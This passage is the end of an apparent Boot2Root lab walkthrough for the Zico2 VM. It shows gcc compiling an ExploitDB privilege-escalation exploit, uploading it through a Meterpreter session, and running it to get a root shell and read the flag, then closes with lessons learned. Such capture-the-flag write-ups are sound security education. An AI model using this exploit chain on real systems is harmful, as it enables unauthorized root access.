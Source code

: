 The ExploitDB page contained the C source for the exploit, which I downloaded to my Kali VM and compiled using GCC. Then I uploaded it to my target using the Meterpreter shell I acquired earlier, and executed it to get a root shell.

~~~
>>On Kali VM
gcc 33589.c -o root

>>On meterpreter session
meterpreter > upload /root/btr/zico2/root /tmp/root
[*] uploading  : /root/btr/zico2/root -> /tmp/root
[*] uploaded   : /root/btr/zico2/root -> /tmp/root
meterpreter > execute -f "chmod" -a "a+x /tmp/root"
Process 2263 created.
meterpreter > ls
Listing: /tmp
=============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100755/rwxr-xr-x  13336   fil   2017-12-17 20:55:02 +0000  root
100755/rwxr-xr-x  746944  fil   2017-12-17 20:14:36 +0000  shell
100644/rw-r--r--  746944  fil   2017-12-17 20:14:36 +0000  shell.1

meterpreter > execute -ci -f "/tmp/root" -a "0"
Process 2292 created.
Channel 18 created.
whoami
root
ls /root
flag.txt
less /root/flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
# 
# Hope you enjoyed! 
# 
# 
#
#
~~~

So what did I learn from this?

Firstly, I learned that combining Path Traversal with the ability to write files to disk can give you Remote Code Execution. This seems fairly obvious in hindsight, but it didn't occur to me until now.

I also learned a lot about how Metasploit works, how to create payloads using MSFVenom and how to use a Meterpreter shell.

Hopefully you've enjoyed this post and learnt something from it. If you have any questions, reach out to me on Twitter. Look forward to more Boot2Root walkthroughs in the future!
